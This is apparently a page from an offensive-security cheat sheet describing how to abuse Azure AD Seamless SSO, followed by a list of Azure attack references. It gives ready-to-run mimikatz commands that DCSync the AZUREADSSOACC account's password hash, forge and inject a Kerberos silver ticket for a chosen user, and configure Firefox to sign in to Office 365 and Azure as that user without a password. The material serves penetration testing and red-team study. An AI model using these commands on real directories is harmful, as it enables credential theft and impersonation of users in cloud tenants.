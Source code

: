 :warning: The password of the AZUREADSSOACC account never changes.

Using https://autologon.microsoftazuread-sso.com/ to convert Kerberos tickets to SAML and JWT for Office 365 & Azure

1.  NTLM password hash of the AZUREADSSOACC account, e.g. `f9969e088b2c13d93833d0ce436c76dd`.
    
    ```powershell
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```
    
    ⧉ Copied!
    
2.  AAD logon name of the user we want to impersonate, e.g. `elrond@contoso.com`. This is typically either his userPrincipalName or mail attribute from the on-prem AD.
3.  SID of the user we want to impersonate, e.g. `S-1-5-21-2121516926-2695913149-3163778339-1234`.
4.  Create the Silver Ticket and inject it into Kerberos cache:
    
    ```powershell
    mimikatz.exe "kerberos::golden /user:elrond
    /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
    /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
    /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```
    
    ⧉ Copied!
    
5.  Launch Mozilla Firefox
6.  Go to about:config and set the `network.negotiate-auth.trusted-uris preference` to value `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
7.  Navigate to any web application that is integrated with our AAD domain. Fill in the user name, while leaving the password field empty.

## References

- [Introduction To 365-Stealer - Understanding and Executing the Illicit Consent Grant Attack](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [Learn with @trouble1_raunak: Cloud Pentesting - Azure (Illicit Consent Grant Attack) !!](https://www.youtube.com/watch?v=51FSvndgddk&list=WL)
- [Pass-the-PRT attack and detection by Microsoft Defender for … - Derk van der Woude - Jun 9](https://derkvanderwoude.medium.com/pass-the-prt-attack-and-detection-by-microsoft-defender-for-afd7dbe83c94)
- [Azure AD Pass The Certificate - Mor - Aug 19, 2020](https://medium.com/@mor2464/azure-ad-pass-the-certificate-d0c5de624597)
- [Get Access Tokens for Managed Service Identity on Azure App Service](https://zhiliaxu.github.io/app-service-managed-identity.html)
- [Bypassing conditional access by faking device compliance - September 06, 2020 - @DrAzureAD](https://o365blog.com/post/mdm/)
- [CARTP-cheatsheet - Azure AD cheatsheet for the CARTP course](https://github.com/0xJs/CARTP-cheatsheet/blob/main/Authenticated-enumeration.md)
- [Get-AzurePasswords: A Tool for Dumping Credentials from Azure Subscriptions - August 28, 2018 - Karl Fosaaen](https://www.netspi.com/blog/technical/cloud-penetration-testing/get-azurepasswords/)
- [An introduction to penetration testing Azure - Akimbocore](https://akimbocore.com/article/introduction-to-pentesting-azure/)
- [Running Powershell scripts on Azure VM - Netspi](https://blog.netspi.com/running-powershell-scripts-on-azure-vms/)
- [Attacking Azure Cloud shell - Netspi](https://blog.netspi.com/attacking-azure-cloud-shell/)
- [Maintaining Azure Persistence via automation accounts - Netspi](https://blog.netspi.com/maintaining-azure-persistence-via-automation-accounts/)
- [Detecting an attacks on active directory with Azure - Smartspate](https://www.smartspate.com/detecting-an-attacks-on-active-directory-with-azure/)
- [Azure AD Overview](https://www.youtube.com/watch?v=l_pnNpdxj20)
- [Windows Azure Active Directory in plain English](https://www.youtube.com/watch?v=IcSATObaQZE)
- [Building Free Active Directory Lab in Azure - @kamran.bilgrami](https://medium.com/@kamran.bilgrami/ethical-hacking-lessons-building-free-active-directory-lab-in-azure-6c67a7eddd7f)
- [Attacking Azure/Azure AD and introducing Powerzure - SpecterOps](https://posts.specterops.io/attacking-azure-azure-ad-and-introducing-powerzure-ca70b330511a)